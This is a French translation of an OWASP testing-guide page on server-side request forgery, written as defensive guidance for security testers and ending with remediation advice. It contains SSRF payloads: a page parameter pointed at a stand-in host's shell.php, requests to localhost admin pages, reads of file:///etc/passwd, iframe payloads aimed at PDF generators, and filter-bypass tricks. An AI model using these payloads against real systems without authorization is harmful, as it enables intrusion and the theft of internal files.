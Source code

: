# Test de contrefaçon de requête côté serveur

|ID          |
|------------|
|WSTG-INPV-19|

## Sommaire

Les applications Web interagissent souvent avec des ressources internes ou externes. Bien que vous puissiez vous attendre à ce que seule la ressource prévue traite les données que vous envoyez, des données mal gérées peuvent créer une situation dans laquelle des attaques par injection sont possibles. Un type d'attaque par injection est appelé Server-side Request Forgery (SSRF). Une attaque SSRF réussie peut accorder à l'attaquant l'accès à des actions restreintes, des services internes ou des fichiers internes au sein de l'application ou de l'organisation. Dans certains cas, cela peut même conduire à l'exécution de code à distance (RCE).

## Objectifs des tests

- Identifier les points d'injection SSRF.
- Tester si les points d'injection sont exploitables.
- Évalue la gravité de la vulnérabilité.

## Comment tester

Lors du test de SSRF, vous essayez de faire en sorte que le serveur ciblé charge ou enregistre par inadvertance du contenu qui pourrait être malveillant. Le test le plus courant concerne l'inclusion de fichiers locaux et distants. Il existe également une autre facette de SSRF : une relation de confiance qui survient souvent lorsque le serveur d'applications est capable d'interagir avec d'autres systèmes principaux qui ne sont pas directement accessibles par les utilisateurs. Ces systèmes dorsaux ont souvent des adresses IP privées non routables ou sont limités à certains hôtes. Comme ils sont protégés par la topologie du réseau, ils manquent souvent de contrôles plus sophistiqués. Ces systèmes internes contiennent souvent des données ou des fonctionnalités sensibles.

Considérez la requête suivante :

``` http
GET https://exemple.com/page?page=about.php
```

Vous pouvez tester cette requête avec les charges utiles suivantes.

### Charger le contenu d'un fichier

```http
GET https://exemple.com/page?page=https://malicioussite.com/shell.php
```

### Accéder à une page restreinte

```http
GET https://exemple.com/page?page=http://localhost/admin
```

Ou :

```http
GET https://exemple.com/page?page=http://127.0.0.1/admin
```

Utilisez l'interface de bouclage pour accéder au contenu limité à l'hôte uniquement. Ce mécanisme implique que si vous avez accès à l'hôte, vous avez également des privilèges pour accéder directement à la page `admin`.

Ce type de relations de confiance, où les requêtes provenant de la machine locale sont traitées différemment des requêtes ordinaires, sont souvent ce qui permet à SSRF d'être une vulnérabilité critique.

### Récupérer un fichier local

```http
GET https://exemple.com/page?page=file:///etc/passwd
```

### Méthodes HTTP utilisées

Toutes les charges utiles ci-dessus peuvent s'appliquer à tout type de requête HTTP et peuvent également être injectées dans les valeurs d'en-tête et de cookie.

Une remarque importante sur SSRF avec les requêtes POST est que le SSRF peut également se manifester de manière aveugle, car l'application peut ne rien renvoyer immédiatement. Au lieu de cela, les données injectées peuvent être utilisées dans d'autres fonctionnalités telles que les rapports PDF, la gestion des factures ou des commandes, etc., qui peuvent être visibles pour les employés ou le personnel, mais pas nécessairement pour l'utilisateur final ou le testeur.

Vous pouvez en savoir plus sur Blind SSRF [ici](https://portswigger.net/web-security/ssrf/blind), ou dans la [section références](#references).

### Générateurs PDF

Dans certains cas, un serveur peut convertir les fichiers téléchargés au format PDF. Essayez d'injecter des éléments `<iframe>`, `<img>`, `<base>` ou `<script>`, ou des fonctions CSS `url()` pointant vers des services internes.

```html
<iframe src="file:///etc/passwd" width="400" height="400">
<iframe src="file:///c:/windows/win.ini" width="400" height="400">
```

### Contournement du filtre commun

Certaines applications bloquent les références à `localhost` et `127.0.0.1`. Cela peut être contourné par :

- Utilisation d'une autre représentation IP évaluée à `127.0.0.1` :
     - Notation décimale : `2130706433`
     - Notation octale : `017700000001`
     - Raccourcissement IP : `127.1`
- Obfuscation des chaînes
- Enregistrement de votre propre domaine qui se résout en `127.0.0.1`

Parfois, l'application autorise une entrée qui correspond à une certaine expression, comme un domaine. Cela peut être contourné si l'analyseur de schéma d'URL n'est pas correctement mis en œuvre, ce qui entraîne des attaques similaires aux [attaques sémantiques](https://tools.ietf.org/html/rfc3986#section-7.6).

- Utilisation du caractère `@` pour séparer les informations utilisateur de l'hôte : `https://expected-domain@attaquant-domain`
- Fragmentation d'URL avec le caractère `#` : `https://attaquant-domaine#expected-domain`
- Encodage d'URL
- Fuzzing
- Combinaisons de tout ce qui précède

Pour des charges utiles supplémentaires et des techniques de contournement, consultez la section [références](#références).

## Correction

SSRF est connu pour être l'une des attaques les plus difficiles à vaincre sans l'utilisation de listes d'autorisation nécessitant l'autorisation d'adresses IP et d'URL spécifiques. Pour en savoir plus sur la prévention SSRF, lisez la [Fiche de triche pour la prévention de la falsification des requêtes côté serveur](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html).

## Références

- [swisskyrepo : charges utiles SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Lecture de fichiers internes à l'aide de la vulnérabilité SSRF](https://medium.com/@neerajedwards/reading-internal-files-using-ssrf-vulnerability-703c5706eefb)
- [Abusing the AWS Metadata Service Using SSRF Vulnerabilities](https://blog.christophetd.fr/abusing-aws-metadata-service-using-ssrf-vulnerabilities/)
- [Cheatsheet OWASP Server Side Request Forgery Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Portswigger : SSRF](https://portswigger.net/web-security/ssrf)
- [Portswigger : SSRF aveugle](https://portswigger.net/web-security/ssrf/blind)
- [Webinaire Bugcrowd : SSRF](https://www.bugcrowd.com/resources/webinars/server-side-request-forgery/)
- [Blog Hackerone : SSRF](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
- [Hacker101 : SSRF](https://www.hacker101.com/sessions/ssrf.html)
- [Syntaxe générique URI](https://tools.ietf.org/html/rfc3986)
